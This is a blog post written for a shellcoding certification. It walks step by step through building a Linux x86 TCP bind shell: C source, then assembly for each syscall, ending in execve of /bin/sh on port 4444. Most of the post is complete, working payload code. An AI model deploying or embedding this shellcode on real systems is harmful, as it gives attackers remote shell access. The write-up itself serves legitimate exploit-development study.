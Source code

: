 ```yaml
---
layout: single
title: "SLAE: Custom TCP Bind shell"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-15
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```



_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_1)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

This assignment will see us create and examine shellcode with a Bind TCP shell as the payload.

We start by retrieving a bind TCP shell written in C so that we can break it down to determine how we will go about building our own shellcode:
```
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int socketfd; 
int socketid; 

struct sockaddr_in hostaddr; 

int main() { 
    //Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(PF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

    //Initialize sockaddr struct 
    hostaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    hostaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //Bind our socket as defined
    bind(socketfd, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    //Start Listening
    listen(socketfd, 2); 

    //Accept incoming connection 
    socketid = accept(socketfd, NULL, NULL); 

    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketid, 0); 
    dup2(socketid, 1); 
    dup2(socketid, 2); 

    //Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
} 
```

After looking at the above we know we will need to make use of the following syscalls and functions under socketcall:

* __NR_socketcall	  102
    * SYS_SOCKET 	1
    * SYS_BIND  	2
    * SYS_CONNECT	3
    * SYS_LISTEN 	4
    * SYS_ACCEPT 	5   
* __NR_dup		     41
* __NR_execve		   11

Now, the SYS_SOCKET function takes 3 args as per man page:

![socketcall](/assets/images/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

I ended up taking the easy route and using google to obtain these values, as this was the path of least resistance.
```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value obviously goes in al
* function type (socket, bind, listen etc) goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    xor ebx, ebx  ; SHELLCODE DID NOT WORK WITHOUT THIS HERE, IT WILL WORK WITH NASM BUT NOT AS SHELLCODE DUE TO REGISTER NOISE!!!
    mov al, 102   ; we move the socketcall syscall value into al, to avoid padding
    mov bl, 1     ; we set function to 1, which is the value of socket (this will change later on to accomodate accept, listen, bind etc)
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
We now move onto setting up the bind section of the shell.
A quick rundown of what we need to achieve here is:
* set sycall as socketcall again
* this time function will be 2 (SYS_BIND)
* we will need to reference the result of our previously executed syscall (now stored in esi)
* Specify listening address as 0.0.0.0 (all available)
* Specify the port value (/x11/x5C‬, then /x5C/x11 for little endian)
* Specify adress length

I ended up having to do some further research into setting the IP address, as per the man page for bind, the second arg is struct sockaddr, as per man 7 ip this means the address needs to consist of: sin_family, sin_port and sin_addr

![bind](/assets/images/SLAE_1/3.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ebx, ebx
    ;create struct sockaddr
    push ebx ; push 0x0 on for listening address
    push word 0x5C11 ; push on reversed value of 4444
    push 0x2 ; push value of AF_INET MAY NEED TO BE WORD??
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    mov bl, 2 ; we set function to 2, which is the value of bind
    xor eax, eax
    mov al, 102
    int 0x80
```

The next part of the code will set up a listener, man page excerpt below.

![listen](/assets/images/SLAE_1/4.JPG)

SO for the listener we need to provide the socket and backlog length, a simple arg that simply specifies the queue for pending connections.

```
    push 0x1 ; set backlog to 1 (arg 2)
    push esi ; push socket fd on (arg 1)
    mov ecx, esp ; mov the parameters required for listen into ecx for when we call the syscall
    mov bl, 0x4 ; listen function value
    mov al, 102
    int 0x80
```
Now we move onto the accept function.
As per man page, arguments will include our socket fd, struck sockaddr and addr length.

![accept](/assets/images/SLAE_1/5.JPG)

```
    push 0x10 ; length
    xor eax, eax
    push eax ; address
    push esi ; socket fd
    mov ecx, esp
    mov bl, 0x5 ; value for accept function
    mov al, 102
    int 0x80
```
The DUP syscall took me a long time to figure out, it was only after reviewing other students code multiple times I realised exactly what is needed, and it is a lot simpler than I initially thought.
Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx,ecx

loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f6e
    push 0x69622f2f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
With all our pieces in place we compile our .nasm code and test it, to make sure that the next steps are not wasted on bad code (this was a good idea, as I realised I forgot to point the stack pointer to ecx in my accept section, which meant my program would just spawn /bin/sh locally xD)
After all this, we can see as below I was able to connect to the bind shell:

![start_bindlisten](/assets/images/SLAE_1/7.JPG)

![connect_to_shell](/assets/images/SLAE_1/9.JPG)

At this point I felt the urge to start enumerating and look for privesc, however I contained myself and continued with the exercise.
Using some [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) I extracted the raw shellcode from my confirmed working binary:
![connect_to_shell](/assets/images/SLAE_1/8.JPG)

We will now WRAP this assignment up by creating (read: stealing and modifying) a [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) that will allow us to customise the port.
We will take our shellcode from the previous step and use that as our template, with \x11\x5c (4444) taken out.

A per screen below the script is both fool-proof and accurate.
![wrapper.py](/assets/images/SLAE_1/10.jpg)

